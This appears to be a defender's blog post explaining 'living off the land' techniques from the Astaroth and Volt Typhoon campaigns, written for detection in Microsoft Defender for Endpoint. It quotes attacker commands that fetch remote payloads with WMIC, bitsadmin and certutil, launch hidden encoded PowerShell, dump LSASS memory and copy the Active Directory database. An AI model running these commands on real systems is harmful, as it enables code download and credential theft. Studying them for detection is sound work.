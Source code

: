 # LotL techniques with MDE detection - Part 1 
Hello everyone,

For a long time, I have seen Living off the Land (LotL) techniques discussed in Microsoft Security blogs, and recently I have been learning various attack techniques, especially those related to LotL. That's why I believe this is a great time to share my learning and detection insights in MDE through this blog.

### What is living off the land ?

[Microsoft Security blog](https://www.microsoft.com/en-us/security/blog/2018/09/27/out-of-sight-but-not-invisible-defeating-fileless-malware-with-behavior-monitoring-amsi-and-next-gen-av/) explains that “living off the land”, as malware only uses resources already available in the operating system. 

I will show you how LotL techniques were used by attackers, based on past Microsoft Security blogs.


### [Astaroth “living-off-the-land”](https://www.microsoft.com/en-us/security/blog/2019/07/08/dismantling-a-fileless-campaign-microsoft-defender-atp-next-gen-protection-exposes-astaroth-attack/)
This is a somewhat older blog, but I love it because it includes some Windows LotL-related attacks in the attack flow.

1. LNK
2. WMI
3. Bitsadmin
4. Certutil

**LNK** : One common pattern is that an attacker creates a LNK file with a target path that executes a PowerShell command to download and run a malicious script from the internet.

**WMI** : Query the operating system (OS) for specific properties and then formats the output using a custom format file located at a URL.

```cmd
Wmic.exe os get ved5hit39, 25hit8, numberofusers /format:"https://storage.googleapis.com/ultramaker/09/v.txt"
```
```cmd
Wmic.exe os get QMUTSQPK, JUXKBVOK, LNFTZKMH, freephyscialmemory /format:"https://storage.googleapis.com/ultramaker/08/vv.txt" 
```

**Bitsadmin / Certutil** : The commands bitsadmin and certutil can be exploited in cyberattacks, particularly in the context of malware delivery and command-and-control (C2) activities, such as downloading and uploading files.


```cmd
bitsadmin.exe /transfer msd5 /priority foreground https://storage.googleapis.com/ultramaker/x/ 09/falcvonxrenwb.jpg.zip.log? %PUBLIC%\Libraries\temporary\falxconxrenwb.jpg.z
```

```cmd
certutil.exe -urlcache -f "<URL/Payload>" "%Temp%\demo.exe"
```
```cmd
certutil.exe -decode %PUBLIC%\Libraries\temporary\falxconxrenwb.jpg.z %PUBLIC%\Libraries\temporary\falxconxrenwb.~
```

![image](https://github.com/user-attachments/assets/f3ba69a1-f9bf-4300-9b03-551917f9875f)
> Astaroth “living-off-the-land” attack chain showing multiple legitimate tools abused
---

### [Volt Typhoon](https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/)

1. WMI
2. LSASS Process dumping (LotL)
   - cmd.exe / powershell.exe
   - rundll32.exe
   - base64 encode 
3. ntdsutil.exe

```cmd
cmd.exe /c powershell -exec bypass -W hidden -nop -E <Base64>
```

```cmd
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <PID> %Temp%\lsass.dmp full
```

```cmd
wmic /node: /user: /password: process call create "cmd.exe /c mkdir C:\Windows\Temp\tmp & ntdsutil \"as i ntds\" ifm \"create full C:\Windows\Temp\tmp" q q"
```

```cmd
cmd.exe /c ntdsutil "as i ntds" ifm "create full C:\Windows\Temp\pro" q q
```

![image](https://github.com/user-attachments/assets/6ed56eeb-f118-46d7-997a-4f0e58fd20af)

>  Volt Typhoon attack diagram
---
